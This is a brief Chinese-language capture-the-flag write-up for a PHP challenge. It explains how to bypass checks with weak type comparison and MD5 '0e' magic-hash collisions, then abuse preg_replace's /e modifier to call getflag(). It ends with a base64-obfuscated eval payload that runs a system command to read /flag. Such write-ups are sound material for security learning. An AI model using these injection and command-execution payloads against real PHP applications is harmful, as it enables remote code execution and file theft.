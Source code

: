 ## php小闯关

打开源码看到有getflag函数，很明显题目的关键就是如何执行这个函数，然后看到闯关成功后有个preg_replace函数，这个函数的/ei模式下是存在命令执行的[preg_replace /e 模式 漏洞分析总结 - 猪猪侠的哥哥 - 博客园](https://www.cnblogs.com/sipc-love/p/14289984.html)

+ 第一步绕过各种if

	第一个用弱类型,level1=520b就行

	第二个是md5碰撞，让b1和b2不相等，但是他们的MD5值相等，那就让他们的md5值都为0e开头并且后面都为数字的字符串即可

	MMHUWUV 0e701732711630150438129209816536

	MAUXXQC 0e478478466848439040434801845361

+ 第二步代码执行，利用preg_replace的漏洞

	re=.*表示匹配全部字符str=${getflag()}

+ 第三步传cmd，rce，这里有个waf，但不过也没过滤什么东西，eval，base64都放出来了

	cmd=eval(base64_decode('c3lzdGVtKCdjYXQgL2ZsYWcnKTs='));